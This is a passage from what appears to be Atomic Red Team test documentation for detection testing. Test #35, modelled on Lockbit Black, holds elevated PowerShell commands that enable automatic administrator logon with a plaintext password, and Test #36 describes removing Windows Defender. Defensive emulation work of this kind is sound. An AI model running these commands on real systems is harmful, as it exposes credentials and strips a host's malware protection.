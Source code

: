 #### Cleanup Commands:

```powershell
Remove-ItemProperty "HKCU:\Software\Policies\Microsoft\Windows\OOBE" -Name DisablePrivacyExperience -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #35 - Lockbit Black - Use Registry Editor to turn on automatic logon -Powershell

Lockbit Black - Use Registry Editor to turn on automatic logon

**Supported Platforms:** Windows

**auto_generated_guid:** 5e27f36d-5132-4537-b43b-413b0d5eec9a

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
New-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name AutoAdminLogon -PropertyType DWord -Value 1 -Force
New-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -Value Administrator -Force
New-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultDomainName -Value contoso.com -Force
New-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword  -Value password1 -Force
```

#### Cleanup Commands:

```powershell
Remove-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name AutoAdminLogon -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultUserName -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultDomainName -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\Software\Policies\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name DefaultPassword -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #36 - Disable Windows Defender with PwSh Disable-WindowsOptionalFeature

The following Atomic will attempt to disable Windows-Defender using the built in PowerShell cmdlet Disable-WindowsOptionalFeature, Deployment Image Servicing and Management tool.
Similar to DISM.exe, this cmdlet is used to enumerate, install, uninstall, configure, and update features and packages in Windows images.
A successful execution will not standard-out any details. Remove the quiet switch if verbosity is needed.
This method will remove Defender and it's packages.
Reference: https://docs.microsoft.com/en-us/powershell/module/dism/disable-windowsoptionalfeature?view=windowsserver2022-ps
